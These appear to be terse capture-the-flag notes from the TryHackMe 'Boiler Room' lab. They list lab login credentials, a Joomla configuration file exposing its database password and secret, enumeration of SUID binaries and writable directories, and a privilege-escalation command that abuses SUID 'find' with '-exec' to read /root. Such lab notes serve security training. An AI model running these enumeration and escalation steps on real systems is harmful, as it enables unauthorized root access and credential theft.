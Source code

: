 
- username: `basterd`
- password: `superduperp@$$`

superduperp@$$ 


<?php
class JConfig {
	public $offline = '0';
	public $offline_message = 'This site is down for maintenance.<br />Please check back again soon.';
	public $display_offline_message = '1';
	public $offline_image = '';
	public $sitename = 'THM Boiler Room';
	public $editor = 'tinymce';
	public $captcha = '0';
	public $list_limit = '20';
	public $access = '1';
	public $debug = '0';
	public $debug_lang = '0';
	public $debug_lang_const = '1';
	public $dbtype = 'mysqli';
	public $host = '127.0.0.1';
	public $user = 'joomlauser';
	public $password = 'passwordz';
	public $db = 'joomladb';
	public $dbprefix = 'wyot4_';
	public $live_site = '';
	public $secret = '5O2SmJUZB24rhcfL';
	public $gzip = '0';
	public $error_reporting = 'default';
	public $helpurl = 'https://help.joomla.org/proxy?keyref=Help{major}{minor}:{keyref}&lang={langcode}';
	public $ftp_host = '';
	public $ftp_port = '';
	public $ftp_user = '';
	public $ftp_pass = '';
	public $ftp_root = '';
	public $ftp_enable = '0';
	public $offset = 'UTC';
	public $mailonline = '1';
	public $mailer = 'mail';
	public $mailfrom = 'admin@example.com';
	public $fromname = 'THM Boiler Room';
	public $sendmail = '/usr/sbin/sendmail';
	public $smtpauth = '0';
	public $smtpuser = '';
	public $smtppass = '';
	public $smtphost = 'localhost';
	public $smtpsecure = 'none';
	public $smtpport = '25';
	public $caching = '0';
	public $cache_handler = 'file';
	public $cachetime = '15';
	public $cache_platformprefix = '0';
	public $MetaDesc = '';
	public $MetaKeys = '';
	public $MetaTitle = '1';
	public $MetaAuthor = '1';
	public $MetaVersion = '0';
	public $robots = '';
	public $sef = '1';
	public $sef_rewrite = '0';
	public $sef_suffix = '0';
	public $unicodeslugs = '0';
	public $feed_limit = '10';
	public $feed_email = 'none';
	public $log_path = '/var/www/html/joomla/administrator/logs';
	public $tmp_path = '/var/www/html/joomla/tmp';
	public $lifetime = '15';
	public $session_handler = 'database';
	public $shared_session = '0';
}


stoner

find / -user root -perm -4000 -executable -type f 2>/dev/null
/bin/su
/bin/fusermount
/bin/umount
/bin/mount
/bin/ping6
/bin/ping
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/bin/newgidmap
/usr/bin/find
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/sudo
/usr/bin/pkexec
/usr/bin/gpasswd
/usr/bin/newuidmap

stoner@Vulnerable:~$ cd /usr/bin
stoner@Vulnerable:/usr/bin$ ls	

find / -writable -type d 2>/dev/null
/home/stoner
/home/stoner/.nano
/tmp
/tmp/.Test-unix
/tmp/.XIM-unix
/tmp/.X11-unix
/tmp/.ICE-unix
/tmp/.font-unix
/var/tmp
/var/lib/lxcfs/proc
/var/lib/lxcfs/cgroup
/var/lib/php/sessions
/var/crash
/dev/mqueue
/dev/shm
/proc/1644/task/1644/fd
/proc/1644/fd
/proc/1644/map_files
/run/lock

find /root -exec ls /root \; 
